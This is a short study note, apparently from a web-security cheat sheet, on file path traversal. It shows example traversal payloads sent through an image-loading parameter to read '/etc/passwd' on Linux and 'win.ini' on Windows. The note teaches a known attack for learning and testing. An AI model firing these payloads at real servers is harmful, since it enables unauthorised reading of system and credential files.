 # 2. File path traversal

Have a look at the .html page for things like `<img src="/loadImage?filename=218.png">` this will load the image 218.png. It might be possible to navigate the server file system be using search strings like.
### Linux
`../../../etc/passwd` i.e `https://insecure-website.com/loadImage?filename=../../../etc/passwd`
### Windows
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini